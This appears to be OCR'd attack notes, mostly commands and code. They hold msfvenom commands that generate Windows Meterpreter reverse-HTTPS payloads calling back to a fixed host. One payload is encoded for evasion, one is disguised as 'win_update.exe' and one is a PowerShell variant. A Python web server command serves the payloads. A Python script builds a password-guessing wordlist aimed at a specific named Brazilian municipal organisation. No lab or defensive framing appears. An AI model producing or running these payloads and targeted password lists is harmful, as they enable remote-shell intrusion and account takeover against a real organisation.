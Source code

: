 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

empresa_base = ["prefeitura", "atibaia", "prefeituraatibaia", "sum", "suma", "suma57667"]
anos = ["2019", "2020", "2021"]
sufixos = ["", "123", "1234", "@123", "!@#", "#", "@!", "@#"]
combinacoes_fixas = [
    "admin", "administrator", "senha", "senha123", "qwerty", "123456", "windows", "usuario"
]

with open("wordlist_atibaia.txt", "w") as f:
    for base in empresa_base:
        for ano in anos:
            f.write(f"{base}{ano}\n")
            f.write(f"{base}@{ano}\n")
            for suf in sufixos:
                f.write(f"{base}{ano}{suf}\n")
                f.write(f"{base}@{ano}{suf}\n")
        for suf in sufixos:
            f.write(f"{base}{suf}\n")

    for fixo in combinacoes_fixas:
        f.write(f"{fixo}\n")
        for ano in anos:
            f.write(f"{fixo}{ano}\n")
            for suf in sufixos:
                f.write(f"{fixo}{ano}{suf}\n")
                f.write(f"{fixo}@{ano}{suf}\n")

print("Wordlist personalizada criada como 'wordlist_atibaia.txt'")
